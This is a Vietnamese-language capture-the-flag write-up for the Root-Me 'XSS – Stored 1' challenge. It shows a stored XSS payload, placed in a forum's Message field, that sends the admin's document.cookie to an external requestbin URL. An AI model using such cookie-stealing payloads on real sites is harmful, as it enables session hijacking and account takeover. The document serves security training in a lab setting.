 # [XSS – Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)

Challenge yêu cầu ta thực hiện đánh cắp cookie phiên quản trị viên và cung cấp cho ta một website để đăng post:

![](./media/image1.png)

Kiểm tra source thì thấy đây là một form với phương thức **“POST”**. Như tên đề bài, ta sẽ thực hiện XSS Stored vào input. Nhưng trước hết ta kiểm tra xem nó bị XSS ở đâu, ta được kết quả là nó bị tại ô input **‘Message’**:

![](./media/image2.png)

![](./media/image3.png)

Đầu tiên, ta thực hiện tạo một nơi để có thể thu thập các HTTP Request với https://requestbin.in:

![](./media/image4.png)

Như vậy, ta có một requestbin tại https://eojx5xx99skfihj.m.pipedream.net:

Tiếp theo, ta có thể đoán được chắc chắn Forum v0.001 website này bị XSS, do vậy, ta thực hiện viết payload để attack vào input của form này:

Payload:
```javascript
<script></script>document.write("<img src='https://eojx5xx99skfihj.m.pipedream.net/"+document.cookie+"'></img>");</script>
```

![](./media/image5.png)

![](./media/image6.png)

Kiểm tra request bin, ta nhận được giá trị ADMIN\_COOKIE.

![](./media/image7.png)

- Flag: "****************************"
